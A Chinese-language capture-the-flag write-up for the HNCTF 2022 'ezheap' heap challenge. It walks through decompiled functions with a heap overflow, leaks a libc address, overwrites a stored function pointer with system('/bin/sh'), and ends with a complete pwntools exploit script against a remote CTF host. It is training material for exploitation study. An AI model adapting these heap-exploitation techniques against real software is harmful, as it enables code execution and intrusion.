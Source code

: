 ```yaml
---
title: '[HNCTF 2022 WEEK4]ezheap'
date: 2024-04-28 13:00:00 +0800
categories: [uaf,off_by_one,heapoverflow,leak_libc]
tags: [ctf,pwn]
---
```

 [[HNCTF 2022 WEEK4](https://www.nssctf.cn/problem/3104)]ezheap

```shell
[*] '/home/bamuwe/ezheap/ezheap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

> $checksec ./ezheap

```shell
Easy Note.
1.Add.
2.Delete.
3.Show.
4.Edit.
Choice:
```

> 运行截图

```c
int add()
{
  __int64 v0; // rbx
  __int64 v1; // rax
  int v3; // [rsp+0h] [rbp-20h]
  signed int v4; // [rsp+4h] [rbp-1Ch]

  puts("Input your idx:");
  v3 = getnum();
  puts("Size:");
  v4 = getnum();
  if ( v4 > 0x100 )
  {
    LODWORD(v1) = puts("Invalid!");
  }
  else
  {
    heaplist[v3] = malloc(0x20uLL);
    if ( !heaplist[v3] )
    {
      puts("Malloc Error!");
      exit(1);
    }
    v0 = heaplist[v3];
    *(v0 + 16) = malloc(v4);
    *(heaplist[v3] + 32LL) = &puts;             // 预存的puts()地址，考虑泄露/更改
    if ( !*(heaplist[v3] + 16LL) )
    {
      puts("Malloc Error!");
      exit(1);
    }
    sizelist[v3] = v4;
    puts("Name: ");
    if ( !read(0, heaplist[v3], 0x10uLL) )	//限制name堆块只能输入0x10
    {
      puts("Something error!");
      exit(1);
    }
    puts("Content:");
    if ( !read(0, *(heaplist[v3] + 16LL), sizelist[v3]) )
    {
      puts("Error!");
      exit(1);
    }
    puts("Done!");
    v1 = heaplist[v3];
    *(v1 + 24) = 1;
  }
  return v1;
}
```

> 漏洞函数1_add()

```c
__int64 show()
{
  unsigned int v1; // [rsp+Ch] [rbp-4h]

  puts("Input your idx:");
  v1 = getnum();
  if ( v1 <= 0xF && heaplist[v1] )
  {
    (*(heaplist[v1] + 32LL))(heaplist[v1]);		//通过调用堆上预存的puts()地址实现输出打印
    return (*(heaplist[v1] + 32LL))(*(heaplist[v1] + 16LL));
  }
  else
  {
    puts("Error idx!");
    return 0LL;
  }
}
```

> 漏洞函数2_show()

```c
ssize_t edit()
{
  unsigned int v1; // [rsp+8h] [rbp-8h]
  unsigned int nbytes; // [rsp+Ch] [rbp-4h]

  puts("Input your idx:");
  v1 = getnum();
  puts("Size:");
  nbytes = getnum();
  if ( v1 <= 0x10 && heaplist[v1] && nbytes <= 0x100 )	// 只做了<=0x100的限制，可以溢出
    return read(0, *(heaplist[v1] + 16LL), nbytes);
  puts("Error idx!");
  return 0LL;
}
```

> 漏洞函数3_edit()

```python
def add(idx,size,name,text):
    io.sendlineafter(b'Choice: \n',b'1')    
    io.sendlineafter(b'idx:\n',str(idx))
    io.sendlineafter(b'Size:\n',str(int(size)))
    io.sendlineafter(b'Name: \n',str(name))
    io.sendafter(b'Content:\n',text)
    
def free(idx):
    io.sendlineafter(b'Choice: \n',b'2')
    io.sendlineafter(b'idx:\n',str(idx))
    
def show(idx):
    io.sendlineafter(b'Choice: \n',b'3')    
    io.sendlineafter(b'idx:\n',str(idx))
    
def edit(idx,size,text):
    io.sendlineafter(b'Choice: \n',b'4')
    io.sendlineafter(b'idx:\n',str(idx))
    io.sendlineafter(b'Size:\n',str(int(size)))
    io.send(text)
```

> 交互函数

程序逻辑：

1. `add()`时会添加两个`chunk`，`chunk1`存贮`name`，正文`chunk`和`puts()`的地址，即`0x0a27656d616e2762(name)`，`0x0000561b7af6c040`，`0x00007f483b7215d0(puts_addr)`另`chunk2`存贮`text`

   ![image-20240428142620769](../assets/img/old_imgs/image-20240428142620769.png)

2. `show()`会调用`chunk1`中预存的`puts()`构造`puts(chunk2_addr)`实现打印输出

   ![image-20240428143340351](../assets/img/old_imgs/image-20240428143340351.png)

利用思路：

1. `edit()`宽松的输入检测，可以更改堆块大小，构造`fake_chunk`

   ```python
   add(0,0x18,b'0'*0x10,b'0000')
   add(1,0x10,'1111',b'1111')
   add(2,0x10,'2222',b'2222')
   
   edit(0,0x20,b'A'*0x18+p8(0x81))
   show(0)
   free(1)
   ```

   ![image-20240428144611332](../assets/img/old_imgs/image-20240428144611332.png)

   > 成功构造出fake_chunk

2. 可以构造堆溢出，溢出`\x00`截断，填充并泄露`puts()`的地址

   ```python
   add(4,0x70,'4444',b'4'*(0x20-1)+b'-')			#申请回fake_chunk，填充堆空间，添加标志位
   show(4)											#查看堆上内容
   io.recvuntil(b'-')
   puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
   # lib = LibcSearcher('puts',puts_addr)			#remote
   lib_base = puts_addr-lib.sym['puts']
   sys_addr = lib_base+lib.sym['system']
   # lib_base = puts_addr-lib.dump('puts')
   # sys_addr = lib_base+lib.dump('system')
   success('&system=>{}'.format(hex(sys_addr)))
   success('&puts=>{}'.format(hex(puts_addr)))
   ```

   ![image-20240428151019745](../assets/img/old_imgs/image-20240428151019745.png)

3. 通过`edit()`修改，利用堆溢出修改其他`chunk`

   ```python
   edit(4,0x100,b'a'*0x40+p64(0)+p64(0x31)+b'/bin/sh\x00'+p64(0)*2+p64(0x1)+p64(sys_addr))
   ```

   ![image-20240428151224698](../assets/img/old_imgs/image-20240428151224698.png)

   > 修改后，可以与上面比较一下

4.利用`show()`得到`shell`

```python
show(2)
```

___

exp:

```python
#Ubuntu GLIBC 2.23-0ubuntu11.3

from pwn import *
from LibcSearcher import LibcSearcher
context.log_level = 'debug'
elf = ELF('./ezheap')
# io = gdb.debug('./ezheap')
io = remote('node5.anna.nssctf.cn',26829)
# lib = ELF('/home/bamuwe/pwn_tools/glibc-all-in-one/libs/2.23-0ubuntu3_amd64/libc.so.6')
def add(idx,size,name,text):
    io.sendlineafter(b'Choice: \n',b'1')    
    io.sendlineafter(b'idx:\n',str(idx))
    io.sendlineafter(b'Size:\n',str(int(size)))
    io.sendlineafter(b'Name: \n',str(name))
    io.sendafter(b'Content:\n',text)
    
def free(idx):
    io.sendlineafter(b'Choice: \n',b'2')
    io.sendlineafter(b'idx:\n',str(idx))
    
def show(idx):
    io.sendlineafter(b'Choice: \n',b'3')    
    io.sendlineafter(b'idx:\n',str(idx))
    
def edit(idx,size,text):
    io.sendlineafter(b'Choice: \n',b'4')
    io.sendlineafter(b'idx:\n',str(idx))
    io.sendlineafter(b'Size:\n',str(int(size)))
    io.send(text)

add(0,0x18,b'0'*0x10,b'0000')
add(1,0x10,'1111',b'1111')
add(2,0x10,'2222',b'2222')

edit(0,0x20,b'A'*0x18+p8(0x81))
show(0)
free(1)
add(4,0x70,'4444',b'4'*(0x20-1)+b'-')
show(4)
io.recvuntil(b'-')
puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
lib = LibcSearcher('puts',puts_addr)
lib_base = puts_addr-lib.dump('puts')
sys_addr = lib_base+lib.dump('system')
success('&system=>{}'.format(hex(sys_addr)))
success('&puts=>{}'.format(hex(puts_addr)))

edit(4,0x100,b'a'*0x40+p64(0)+p64(0x31)+b'/bin/sh\x00'+p64(0)*2+p64(0x1)+p64(sys_addr))
show(2)

io.interactive()
```



